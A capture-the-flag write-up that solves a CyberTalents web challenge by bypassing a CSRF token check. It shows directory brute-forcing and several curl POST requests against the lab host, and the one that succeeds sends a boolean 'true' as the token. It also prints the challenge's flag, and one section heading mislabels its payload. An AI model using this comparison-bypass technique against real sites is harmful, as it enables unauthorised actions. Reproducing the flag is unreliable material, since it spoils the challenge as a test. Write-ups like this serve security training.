

# Solve wrong-token
#### https://cybertalents.com/challenges/web/wrong-token
Request to the flag is forbidden due to wrong csrf token ... can you fix it and reveal the flag

### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

No output

### Analyze the source code
```js
<script type="text/javascript">
		$.ajax('index.php', {
		    type: 'post',
		    contentType: 'application/json',
		    data: '{"action": "view_flag", "_token": "asdjhDJhfkjdI"}',
		});
    </script>
```

```bash
curl -X POST http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com/index.php -d '{"action": "view_flag", "_token": "asdjhDJhfkjdI"}'
```
Response : the page only except json 
```bash
curl -X POST http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com/index.php \
-H "Content-Type: application/json" \
-d '{"action": "view_flag", "_token": "asdjhDJhfkjdI"}'
```
Response : Failed Comparison ( incoming CSRF token != Session CSRF token )

### Bypass CSRF topken 
#### Remove the Token Field
```bash
curl -X POST http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com/index.php \
-H "Content-Type: application/json" \
-d '{"action": "view_flag"}'
```
Response : Failed Comparison ( incoming CSRF token != Session CSRF token )

```bash
curl -X POST http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com/index.php \
-H "Content-Type: application/json" \
-d '{"action": "view_flag", "_token": ""}'
```
#### Send an Empty Token
```bash
curl -X POST http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com/index.php \
-H "Content-Type: application/json" \
-d '{"action": "view_flag", "_token":true}'
```
flag is : dkjfhsdkhfr43r34r3

>Find More on ==> github.com/MedhatHassan 
